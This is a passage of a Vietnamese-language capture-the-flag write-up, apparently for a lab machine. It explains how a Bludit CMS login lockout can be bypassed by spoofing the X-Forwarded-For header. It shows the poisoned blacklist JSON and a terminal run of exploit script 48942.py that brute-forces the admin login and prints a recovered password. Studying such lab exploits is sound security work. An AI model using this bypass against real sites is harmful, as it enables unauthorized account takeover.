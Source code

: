 Lý do đằng sau việc kiểm tra các header này là để xác định địa chỉ IP của người dùng cuối đang truy cập trang web bằng proxy. Tuy nhiên, việc tin tưởng vào các header này sẽ cho phép kẻ tấn công dễ dàng giả mạo địa chỉ nguồn. Ngoài ra, không có xác thực nào được thực hiện để đảm bảo chúng là địa chỉ IP hợp lệ, nghĩa là kẻ tấn công có thể sử dụng bất kỳ giá trị tùy ý nào và không có nguy cơ bị khóa.

Việc gửi yêu cầu đăng nhập có giá trị header `X-Forwarded-For` của FakeIp đã được xử lý thành công và nỗ lực đăng nhập không thành công đã được ghi lại vào chuỗi giả mạo:

```
{
    "minutesBlocked": 5,
    "numberFailuresAllowed": 10,
    "blackList": {
        "192.168.194.1": {
            "lastFailure": 1570286876,
            "numberFailures": 1
        },
        "10.10.10.10": {
            "lastFailure": 1570286993,
            "numberFailures": 1
        },
        "FakeIp": {
            "lastFailure": 1570287052,
            "numberFailures": 1
        }
    }
}
```
Các cuộc tấn công brute-force kéo dài có thể được thực hiện mà không có nguy cơ bị chặn sau 10 lần thử thất bại

Tóm lại dựa vào code của `48942.py`. Mấu chốt của nó nằm ở sự thay đổi của header `X-Forwarded-For`

```
┌──(kali㉿kali)-[~]
└─$ echo "fergus" > user.txt   
                               
┌──(kali㉿kali)-[~]
└─$ python3 48942.py -l http://10.10.10.191/admin/login -u user.txt -p pass.txt 

[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX 
     
[ ] Brute Force: Testing -> fergus:CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[▘] Brute Force: Testing -> fergus:the
[ ] Brute Force: Testing -> fergus:Load
<SNIP>

[<] Brute Force: Testing -> fergus:character
[ ] Brute Force: Testing -> fergus:RolandDeschain

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```
